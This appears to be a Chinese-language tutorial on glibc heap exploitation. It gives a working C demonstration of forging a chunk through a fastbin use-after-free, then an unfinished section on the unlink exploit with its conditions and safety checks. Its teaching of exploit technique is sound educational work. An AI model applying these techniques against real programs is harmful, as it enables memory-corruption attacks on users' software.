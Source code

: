 ## 1. Forging chunks / UAF on fastbin

chunk被free掉之后，如果有UAF漏洞，那么可以修改被free的chunk的fd或者bd指针，指向假的chunk，使得随后的第二次malloc会获得我们的假的chunk

* 条件
  * UAF

* 安全检查
  * 假的chunk的大小需要与free的chunk相同

一个fastbin的UAF利用如下

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

## 2. Unlink Exploit

unlink指的是将chunk从bin的链表中间的某个位置取出的操作，在unlink的过程中会对被取出chunk的前后chunk的fd和bd进行重置。

* 条件
  * 存在内存上连续的两个chunk，前一个chunk能够溢出修改后一个chunk的P位和prev_size
  * 上述两个chunk大小属于fastbin

* 安全检查
  * 假的chunk确保`P->fd->bk == P`和`P->bk->fd == P`

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};
```
